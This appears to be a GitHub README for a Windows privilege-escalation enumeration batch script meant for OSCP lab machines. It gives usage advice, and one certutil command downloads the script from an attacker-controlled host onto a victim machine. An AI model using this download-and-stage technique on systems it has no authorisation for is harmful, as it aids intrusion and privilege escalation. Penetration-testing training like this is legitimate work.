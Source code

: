 # Windows Priv Checker
A Windows privilege escalation (enumeration) script designed with OSCP labs (i.e. legacy Windows machines without Powershell) in mind. The script represents a conglomeration of various privilege escalation checks, gathered from various sources, all done via native Windows binaries present in almost every version of Windows.

Note, the batch file also operates on the latest versions of Windows as well. PowerShell is not necessary to achieve proper OS enumeration.

# Use
Copy the batch file from your attacker machine to a user writeable directory on the victim machine (typically the current users folder, the "public" user folder, or C:\\Windows\\Temp will be writeable). 

Also (although the script will run without it), it recommended you copy (an older verison of) accesschk.exe to the same location. It is recommended you use an older version of accesschk.exe as the latest version will not work on some older Windows machines. The archived version here worked well in my experience (thanks, g0tmi1k); https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

There are many ways to copy over files. I found certutil.exe to be the most reliable across Windows editions. For example;

    certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat
    
The script may generate a lot of output. My recommended approach is to go through it sequentially making a list of 'interesting' things to look at, sorting them as you go. Once you've reached the end of the output, go through your list in order of what stuck out the most. 

You will do yourself a great disservice if you lean heavily on kernel exploits at the expense of thorough Windows enumeration. Although you may find kernel exploits often in work in the labs, try to find other avenues as well.

# Sources
-  http://www.fuzzysecurity.com/tutorials/16.html
-  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
-  https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
-  https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
-  https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
